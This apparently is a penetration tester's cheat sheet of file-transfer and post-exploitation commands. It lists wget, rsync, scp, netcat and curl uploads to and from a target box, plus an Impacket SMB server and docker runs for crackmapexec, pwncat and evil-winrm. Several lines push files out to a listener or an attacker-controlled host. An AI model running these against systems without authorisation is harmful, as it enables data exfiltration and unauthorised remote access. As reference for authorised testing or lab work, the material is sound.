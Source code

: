 ### WGET

Mirror an FTP server
```
wget -m --user=username --password=password ftp://${box_ip}
```

### rsync

```bash
rsync -a /home/user/Downloads/file.txt root@5.182.18.49:/home/Files
rsync -avz /opt/lulz USER@${box_ip}:/dev/shm/
```

### SCP

```
scp -r ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r REMOTE_USER@${box_ip}:dir/file.txt ./file.txt

scp -r -i id_rsa ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r -i id_rsa REMOTE_USER@${box_ip}:dir/file.txt ./file.txt
```

### Netcat

On your server (A):
```bash
nc -l -p 1234 -q 1 > something.zip < /dev/null
```

On your "sender client" (B):

```bash
cat something.zip | netcat server.ip.here 1234
```

### Curl

```bash
curl http://${box_ip}/FILENAME -o FILENAME

curl -u USERNAME:PASSWORD http://${box_ip} -o FILENAME

curl ftp://${box_ip}/FILENAME -user USERNAME:PASSWORD -o FILENAME

curl -T FILENAME ${box_ip} -user USERNAME:PASSWORD

curl -F ‘data=@path/to/local/file’ ${box_ip}

curl -F 'img_avatar=@/home/file.txt' http://${box_ip}/upload

curl -F 'fileX=@/path/to/fileX' -F 'fileY=@/path/to/fileY' ... http://${box_ip}/upload

curl -F 'files[]=@/path/to/fileX' -F 'files[]=@/path/to/fileY' ... http://${box_ip}/upload
```

### Chisel

[get chisel here](https://github.com/jpillora/chisel/)
```
```

### SMB server

```bash
sudo python3 ${imp_dir}/smbserver.py -smb2support -username <SHARE_USER> -password <SHARE_PASS> -ip $attack_ip <SHARE_NAME> <SHARE_PATH>
```


### Crackmapexec

```bash
docker run -it --entrypoint=/bin/sh --name crackmapexec -v ~/.cme:/root/.cme byt3bl33d3r/crackmapexec
```

### PWNCat
```bash
docker run -v "./":/work -t pwncat ${box_ip} LPORT
```

### EvilWinRM

```bash
export scripts_dir='/opt/server/ps_scripts/'; export exe_dir='/opt/server/exe/'; docker run --rm -ti --name evil-winrm -v ${scripts_dir}:/ps1_scripts -v ${exe_dir}:/exe_files -v ${pwd}:/data oscarakaelvis/evil-winrm
```
